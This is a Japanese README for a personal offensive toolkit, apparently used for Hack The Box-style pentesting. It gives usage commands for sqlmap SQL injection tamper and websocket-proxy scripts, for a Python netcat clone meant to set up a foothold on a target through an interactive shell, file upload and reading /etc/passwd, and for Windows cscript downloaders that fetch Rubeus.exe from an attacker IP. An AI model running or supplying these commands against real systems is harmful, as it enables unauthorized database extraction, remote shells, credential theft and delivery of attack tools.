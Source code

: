 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

...
Authorization: Basic *
```
## sqlmap_websocket.py
websocketのプロトコルを介したsqlmapの実行。プロキシ`localhost:8081`を建て、そこからSQLi対象へwebsocket送ります。
<br/>
コマンド例
```
# websocketインストール
pip install websockets

# プロキシ起動
python3 sqlmap_websocket.py

# sqlmap実行
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
## windows_wget_script
Windows標準で組み込まれているスクリプト言語を使ってWgetを実行する物

CMD例：
```
#Javascript
cscript.exe /nologo wget.js hxxp://10.11.14.13/Rubeus.exe

#VBS
cscript.exe /nologo wget.vbs hxxp://10.11.14.13/Rubeus.exe
```
